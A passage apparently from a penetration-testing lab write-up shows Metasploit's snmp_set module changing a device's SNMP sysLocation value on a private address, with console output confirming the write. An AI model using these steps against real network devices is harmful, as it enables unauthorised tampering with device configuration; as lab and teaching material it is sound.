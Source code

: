 
now we can place that 
```
msf6 auxiliary(scanner/snmp/snmp_set) > set OID 1.3.6.1.2.1.1.6.0
OID => 1.3.6.1.2.1.1.6.0
msf6 auxiliary(scanner/snmp/snmp_set) > run

```

```
msf6 auxiliary(scanner/snmp/snmp_set) > run

[*] Try to connect to 192.168.0.110...
[*] Check initial value : OID 1.3.6.1.2.1.1.6.0 => hacked
[*] Set new value : OID 1.3.6.1.2.1.1.6.0 => hacked2
[*] Check new value : OID 1.3.6.1.2.1.1.6.0 => hacked2
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

---